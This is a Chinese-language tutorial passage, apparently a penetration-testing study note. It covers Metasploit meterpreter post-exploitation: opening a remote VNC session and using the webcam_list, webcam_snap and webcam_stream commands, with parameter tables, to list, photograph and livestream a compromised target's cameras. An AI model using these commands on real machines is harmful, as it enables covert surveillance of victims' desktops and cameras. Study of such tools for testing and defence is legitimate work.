 ## 远控方法二:
直接在kali的**meterpreter**中输入:
```
run vnc
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673785977967-2b94f1c2-5713-40ba-bd0d-66935e5b96ba.png#averageHue=%23110e0c&clientId=ub0de73ee-bab8-4&from=paste&height=28&id=u0b701aaa&originHeight=31&originWidth=196&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1089&status=done&style=none&taskId=ud7f3e9a3-1c10-4448-a161-beb830a1706&title=&width=174.22222222222223)


# 调用远程摄像头webcam
靶机获取到meterpreter后我们可以使用  webcam模块实现调用软，硬件摄像头

webcam模块支持命令

| id | 模块名 | 解释 |
| --- | --- | --- |
| 1 | **webcam_list** | 列出靶机中的所有软，硬件摄像头列表，并编号 |
| 2 | **webcam_snap** | 可调用单个软，硬件摄像头拍照，默认调用第一个摄像头 |
| 3 | **webcam_stream** | 可调用单个软，硬件摄像头直播，默认调用第一个摄像头 |

1. 直接输入:
```
webcam_list
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673789153565-3ad5373a-eea3-41d5-a204-890eda8ca7eb.png#averageHue=%2357676a&clientId=ue8c7403c-ae40-4&from=paste&height=41&id=u173c9ffc&originHeight=46&originWidth=612&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33220&status=done&style=none&taskId=uc1eae83c-8872-4474-b733-a4a41d2865e&title=&width=544)


2.  webcam_snap  调用单个软，硬件摄像头拍照
| id | 参数 | 描述 |
| --- | --- | --- |
| 1 | -h | 显示帮助 |
| 2 | -i | -i 1 “1”代表调用摄像头编号 |
| 3 | -p | -p  /root "root"设置存储路径 |
| 4 | -q | -q  100  "100" 表示存储图片的质量默认为 50 |
| 5 | -v | -v  false   -v 2个参数  true 和  false   这个参数表示拍照后自动打开,默认参数为true |

```
webcam_snap -i 1 -p po -q 100
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673789248347-418ca973-967a-41a8-b9ff-c344523cbaf8.png#averageHue=%2341484c&clientId=ue8c7403c-ae40-4&from=paste&height=47&id=u36c39d8d&originHeight=53&originWidth=730&originalType=binary&ratio=1&rotation=0&showTitle=false&size=49049&status=done&style=none&taskId=u2e96e056-7fac-4e71-8048-e868bc2e7de&title=&width=648.8888888888889)


3 webcam_stream  调用单个软，硬件摄像头直播

| id | 参数 | 描述 |
| --- | --- | --- |
| 1 | -h | 显示帮助 |
| 2 | -d | -d 100  "100"=100秒   设置流持续时间为100秒   默认为1800 |
| 3 | -i | -i 1 “1”代表调用摄像头编号 |
| 4 | -q | -q 100  “100”指流质量 默认为50 |
| 5 | -s | -s live “live”指流文件路径  默认输出在当前目录（注意目录不存在不会自动创建） |
| 7 | -f | -f live  “live”指播放文件的存储地址  默认输出在当前目录 |
| 8 | -v | -v  false   -v 2个参数  true 和  false   这个参数表示拍照后自动打开,默认参数为true |

> 示例: 略

